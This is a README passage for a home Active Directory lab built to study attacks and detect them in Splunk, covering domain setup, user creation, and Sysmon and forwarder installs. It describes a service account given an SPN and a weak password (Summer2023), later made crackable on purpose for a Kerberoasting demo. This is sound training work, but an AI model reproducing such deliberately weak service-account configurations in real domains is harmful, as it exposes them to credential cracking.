# AD-DetectLab

A full Active Directory attack lab I built from scratch to learn how real AD attacks actually look on the wire, and how to catch them in Splunk. This isn't a copy of someone else's walkthrough — every command here is one I ran myself, every detection query is one I wrote and debugged myself, and every "problem" section below is a real mistake I made and had to figure out.

The goal was never just "run the tool and get a hash." For every technique I made myself go through the full cycle:

**Build → Attack → Detect → Investigate → Remediate → Verify the fix actually works**

Every screenshot referenced below is in [`screenshots/`](screenshots/), organized by phase, in the exact order things happened.

---

## Lab Topology

| Host | Role | IP | OS |
|---|---|---|---|
| DC01 | Domain Controller (`corp.local`) | 192.168.154.10 | Windows Server 2022 |
| WS01 | Domain-joined workstation | — | Windows 10 |
| Kali | Attacker box | 192.168.154.129 | Kali Linux |
| Splunk | SIEM (runs on the Kali VM) | — | Splunk Enterprise 10.0.0 |

Log pipeline: Sysmon + Windows Security auditing on DC01/WS01 → Splunk Universal Forwarder → Splunk (`index=ad_lab`).



---

## Part 1 — Building the Domain

### Step 1: Stand up DC01
Installed Windows Server 2022, then promoted it to a Domain Controller for a new forest `corp.local`.

- `screenshots/01-environment-setup/01-dc01-windows-server-install.png`
  

- `02-dc01-promote-domain-controller.png` — running `dcpromo` / Add Roles → AD DS
  

- `03-dc01-dcpromo-progress.png`
  

- `04-dc01-ad-ds-installed.png`
  

- `05-dc01-domain-corp-local-confirmed.png` — confirmed the domain is up
  


### Step 2: Create users, OUs, and the first service account
- `06-ad-users-and-computers-open.png`
  

- `07-create-ou-structure.png`
  

- `08-create-karim-user-account.png` — created my own low-priv test account `karim` (this account ends up being the "attacker foothold" for most of the lab)
  

- `09-create-additional-domain-users.png`
  

- `10-create-svc-sql-service-account.png` — `svc-sql`, the account I later use for Kerberoasting
  

- `11-set-spn-setspn-registration.png` — registered a SPN on `svc-sql` with `setspn`
  

- `12-verify-spn-registered.png`
  

- `13-svc-sql-initial-password-set.png` — first password set was `Summer2023`
  


**Note to self:** I changed `svc-sql`'s password later (Part 3, step "weak password reset") to something crackable on purpose, for the Kerberoasting demo. If you're reading the screenshots in order and wonder why the password changes mid-project — that's why, it's intentional, not a mistake.

### Step 3: Populate the domain with realistic noise (BadBlood)
A lab with 3 accounts is not realistic — real detections have to work against hundreds of normal-looking users, groups, and OUs without drowning in false positives. I used [BadBlood](https://github.com/davidprowe/BadBlood) to generate hundreds of fake accounts.

- `screenshots/02-lab-buildout/01-badblood-populate-ad-start.png`
  

- `02-badblood-populate-progress.png`
  

- `03-badblood-populate-complete.png`
  


### Step 4: Join WS01 to the domain
- `04-ws01-network-config.png`
  

- `05-ws01-join-domain.png`
  

- `06-ws01-domain-join-confirmed.png`
  


### Step 5: Install Sysmon (DC01 and WS01)
Used the SwiftOnSecurity Sysmon config as a baseline.
```powershell
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/Sysmon.zip" -OutFile "Sysmon.zip" -UseBasicParsing
Expand-Archive -Path "Sysmon.zip" -DestinationPath "Sysmon" -Force
Invoke-WebRequest -Uri ".../sysmonconfig-export.xml" -OutFile "Sysmon\sysmonconfig.xml" -UseBasicParsing
.\Sysmon64.exe -accepteula -i sysmonconfig.xml
```
- `07-sysmon-install-ws01.png` (same steps were done on DC01 earlier, not separately screenshotted)
  


### Step 6: Install the Splunk Universal Forwarder on both hosts and point them at Splunk
```powershell
Invoke-WebRequest -Uri "https://download.splunk.com/.../splunkforwarder-....msi" -OutFile "splunkuf.msi" -UseBasicParsing
Start-Process msiexec.exe -ArgumentList '/i splunkuf.msi RECEIVING_INDEXER="192.168.154.129:9997" AGREETOLICENSE=Yes ...' -Wait
```
Then configured `inputs.conf` to forward Security, System, and Sysmon/Operational logs into `index=ad_lab`.

- `08-splunk-uf-install-dc01.png`
  

- `09-splunk-uf-service-running-dc01.png`
  

- `10-splunk-events-flowing-dc01-sysmon.png` — confirmed events actually arriving in Splunk (868 events in the first 15 minutes)
  

- `11-splunk-uf-restart-ws01.png`
